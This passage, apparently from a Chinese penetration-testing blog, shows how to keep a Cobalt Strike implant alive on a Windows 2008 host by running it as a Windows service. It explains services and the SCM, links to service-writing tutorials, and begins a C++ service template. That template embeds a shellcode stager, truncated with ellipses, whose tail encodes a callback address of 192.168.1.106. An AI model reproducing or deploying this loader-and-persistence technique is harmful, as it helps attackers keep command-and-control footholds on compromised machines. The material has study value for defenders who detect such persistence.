 这里我生成一个 cs 的马, 改名为 sd  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6NteD9pBv0kBicABdSeSTTzATOJ0Eawaz7l4MXc2eHzKP1AqI1IYaMww/640?wx_fmt=png)

win2008

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6XJPdaqPWibBFvWB1WxynwF6iceDsNJ4NicGB8Ric2Kibnn1YXjAnC7ibIagg/640?wx_fmt=png)

但是以这种方式运行服务的话一会儿就会掉, 随即 cs 掉线  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU64FX2S1KagFicKSwoKAUkQpssHqbqxq3n03SUQUWT0PpicpSVFCsglvDA/640?wx_fmt=png)

打开系统日志查看

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU68q6IWJrNnKmBkB0icT49zVP4sNKmxTpywddcvE0Jld5IqqibQbKh9E0g/640?wx_fmt=png)

我的理解是: 要创建一个服务的话这个服务得是满足 windows 服务规定的格式, 而不是随便一个 pe 文件都可以充当服务  

**编写服务程序**

**服务介绍**

    几乎所有的操作系统在启动的时候都会启动一些不需要与用户交互的进程，这些进程在 Windows 中就被称作服务。它通常用于实现客户／服务器模式中的服务器方，如我们常见的Ｗeb 服务 IIS，当操作系统在启动后它就自动被运行，不管是否有人登陆到系统只要系统开启它就能得到运行。

    服务程序、服务控制程序（SCP，service control program）和服务控制管理器（SCM，service control manager）组成了 Windows 服务。我们可以通过服务控制程序操纵服务控制管理器来配置、启动、暂停、停止服务程序。其中服务程序和服务控制程序可以由我们自己来编写扩展，而服务控制管理器（windowssystem32servics.exe）则是操作系统内置的一个部件。

    SCM 本身也是一个服务程序（windowssystem32servics.exe），作为 windows 的后台服务运行的。Winlogon 在系统引导的早期会将 SCM 启动起来。

可以看一下这篇文章, 写的比较详细

https://blog.csdn.net/swartz_lubel/article/details/70255686

**倾旋大佬博客中也已经给出了一个编写 windwos 服务的模板, 链接在文章的开头**

还有几篇介绍 windows 服务编写的:

http://www.haoservice.cn/2019/11/27/Applied13%E8%AE%A4%E8%AF%86windows%E6%9C%8D%E5%8A%A1%E5%B9%B6%E4%BD%BF%E7%94%A8VC++%E5%88%9B%E5%BB%BAwindows%E6%9C%8D%E5%8A%A1%E7%A8%8B%E5%BA%8F/

https://www.codeproject.com/Articles/499465/Simple-Windows-Service-in-Cplusplus

模板代码执行:

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6URjRa4MXDWbmCTffbgHVK8wumjhicZTxmG4VoiadricIHM2tWgzyaIaNg/640?wx_fmt=png)

在模板上面加一点执行 shellcode 的代码:

```
#include <windows.h>
#include <iostream>


unsigned char buf[] ="\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x。。。。。。。。 \xc3\x85\xc0\x75\xe5\x58\xc3\xe8\x89\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x30\x36\x00\x12\x34\x56\x78";


#define SLEEP_TIME 5000                          /*间隔时间*/
#define LOGFILE "C:\\Windows\\log.txt"              /*信息输出文件*/


SERVICE_STATUS ServiceStatus;  /*服务状态*/
SERVICE_STATUS_HANDLE hStatus; /*服务状态句柄*/


void  ServiceMain(int argc, char** argv);
```